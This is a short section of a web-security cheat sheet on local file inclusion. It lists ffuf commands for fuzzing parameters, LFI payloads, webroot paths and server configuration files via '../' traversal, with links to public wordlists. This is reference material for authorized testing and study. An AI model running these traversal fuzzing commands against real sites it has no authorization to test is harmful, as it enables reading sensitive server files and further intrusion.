 ## Misc {.cols-1}

### 🧪 Misc Techniques

| Command                                                                                                                                                                              | Description                |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------- |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`                                      | Fuzz page parameters       |
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`                                                      | Fuzz LFI payloads          |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path          |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`                                                                      | Fuzz server configurations |

### Wordlists

- [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
- [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
- [Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
- [Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)
- [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
- [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
